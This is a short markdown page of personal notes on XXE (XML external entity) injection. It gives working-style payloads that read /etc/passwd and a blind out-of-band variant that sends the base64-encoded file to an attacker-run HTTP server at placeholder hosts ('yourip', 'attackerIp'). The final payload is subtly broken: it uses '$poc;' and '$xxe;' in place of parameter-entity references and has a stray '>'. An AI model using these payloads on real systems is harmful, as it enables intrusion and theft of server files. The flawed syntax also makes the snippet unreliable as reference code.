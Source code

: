 ```yaml
---
title: Notes | XXE
author: Zeropio
date: 2022-04-25
categories: [Notes, Vulnerabilities]
tags: [xxe]
permalink: /notes/vulnerabilities/xxe
---
```



# Normal
XXE is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data.

We can make a XML file like:
```xml
<?xml  version="1.0" encoding="utf-8"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
<author>&xxe;</author>
```
##### We can use many **wrappers** instead of *file:*. 

# Blind
If we don't have any output from the page we can make this:

- First create a XML file in our machine, which will execute the code.
```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd" >
<!ENTITY % poc "<!ENTITY &#37; xxe SYSTEM 'http://yourip:4444/value=?%file;'>" >
```

- Start a http.server
```console
> python3 -m http.server 4444
```

- Upload a similar file to the victim:
```xml
<?xml  version="1.0" encoding="utf-8"?>
<!DOCTYPE XXE [
	<!ENTITY % remote SYSTEM "http://attackerIp:4444/data.xml" >
	%remote;
	$poc;
	$xxe;
>]>
```
